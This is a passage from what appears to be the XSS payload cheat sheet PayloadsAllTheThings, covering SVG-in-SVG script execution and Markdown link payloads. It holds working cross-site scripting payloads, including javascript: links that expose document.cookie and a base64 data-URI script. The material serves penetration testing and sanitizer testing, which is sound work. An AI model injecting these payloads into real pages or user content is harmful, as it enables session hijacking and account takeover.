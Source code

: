 Including a remote SVG image in a SVG works but won't trigger the XSS embedded in the remote SVG. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

Including a remote SVG fragment in a SVG works but won't trigger the XSS embedded in the remote SVG element because it's impossible to add vulnerable attribute on a polygon/rect/etc since the `style` attribute is no longer a vector on modern browsers. Author: noraj.

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```

However, including svg tags in SVG documents works and allows XSS execution from sub-SVGs. Codename: french flag. Author: noraj.

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <svg x="10">
    <rect x="10" y="10" height="100" width="100" style="fill: #002654"/>
    <script type="text/javascript">alert('sub-svg 1');</script>
  </svg>
  <svg x="200">
    <rect x="10" y="10" height="100" width="100" style="fill: #ED2939"/>
    <script type="text/javascript">alert('sub-svg 2');</script>
  </svg>
</svg>
```

### XSS in Markdown

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-markdown)

```cs
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in CSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-css)
